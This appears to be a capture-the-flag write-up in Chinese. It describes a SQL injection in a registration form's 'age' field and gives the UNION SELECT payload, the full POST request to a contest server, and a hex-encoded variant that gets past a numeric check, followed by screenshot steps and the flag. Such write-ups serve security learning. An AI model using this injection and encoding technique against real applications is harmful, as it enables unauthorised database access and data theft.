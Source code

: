 # writeup

### 注册页面age参数存在sql注入：

```
payload：1 and 1=2 union select 1,(select flag from flag),3,4#

POST:

http://39.107.32.29:10000/index.php?func=register


username=admin31233&age=1 and 1=2 union select 1,(select flag from flag),3,4#&password=admin1230


payload经过hex编码之后：


username=admin31423&age=3120616e6420313d3220756e696f6e2073656c65637420312c2873656c65637420666c61672066726f6d20666c6167292c332c3423&password=admin1230

```
### 0x01 题目链接
![](./images/1.jpg)

### 0x02 注册页面
![](./images/2.jpg)

### 0x03 age be a number
![](./images/3.png)

### 0x04 注册post包
![](./images/4.png)

### 0x05 注册成功
![](./images/5.png)

### 0x06 登陆页面
![](./images/6.png)

### 0x07 登陆后的返回包
![](./images/7.png)

### 0x08 登陆成功看到flag
![](./images/8.png)


#### QWB{M0b4iDalao0rz0rz}

